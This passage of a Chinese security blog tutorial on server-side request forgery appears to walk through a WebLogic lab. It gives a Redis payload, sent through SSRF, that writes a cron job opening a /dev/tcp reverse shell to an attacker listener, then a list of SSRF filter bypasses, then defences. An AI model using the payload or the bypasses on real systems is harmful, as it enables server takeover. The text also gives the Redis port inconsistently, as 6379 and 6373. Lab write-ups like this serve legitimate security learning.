 ```
~# python3 ssrf_portscan.py
[+] 6379 发现端口
```
通过扫描发现Redis服务的默认端口6373是开放的。

接下来使用Burp写入shell，注意下面的IP地址为自己nc监听的地址

```
http://172.18.0.2:6379/test

set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/192.168.10.30/4444 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save

aaa
```
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/SSRF10.png)

如果使用 Burp 的话，直接把那几行代码复制到 operator 参数后面就行，就不用URL编码了。

如果反弹不回 Shell ，在确定各个 IP、端口等参数都没有问题的情况下，Burp 里多点几次几次发送就可以了，我有时候都需要点个几十次才能反弹 Shell ，感觉有些情况下反弹 Shell 是个比较玄学的东西。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/SSRF11.png)

# 0x05 绕过技巧
1、添加端口号：http://127.0.0.1:8080

2、短网址绕过：http://dwz.cn/11SMa

3、IP限制绕过：十进制转换、八进制转换、十六进制转换、不同进制组合转换

4、协议限制绕过：当url协议限制只为http(s)时,可以利用follow redirect特性,构造302跳转服务,结合dict://,file://,gopher://

5、可以指向任意ip的域名：xip.io

6、@    http://abc@127.0.0.1

# 0x06 SSRF防御
1、过滤返回信息,验证远程服务器对请求的响应是比较容易的方法。如果web应用是去获取某一种类型的文件。那么在把返回结果展示给用户之前先验证返回的信息是否符合标准。

2、统一错误信息,避免用户可以根据错误信息来判断远程服务器的端口状态。

3、限制请求的端口为http常用的端口,比如80,443,8080,8090

4、黑名单内网ip。避免应用被用来获取内网数据,攻击内网

5、禁用不需要的协议。仅仅允许http和https请求。可以防止类似于file:///,gopher://,ftp:// 等引起的问题


>更多信息欢迎关注我的微信公众号：TeamsSix

>参考文章
>https://xz.aliyun.com/t/2115
>http://www.liuwx.cn/penetrationtest-3.html
>https://www.cnblogs.com/yuzly/p/10903398.html
>https://github.com/vulhub/vulhub/tree/master/weblogic/ssrf
>https://www.netsparker.com/blog/web-security/server-side-request-forgery-vulnerability-ssrf/
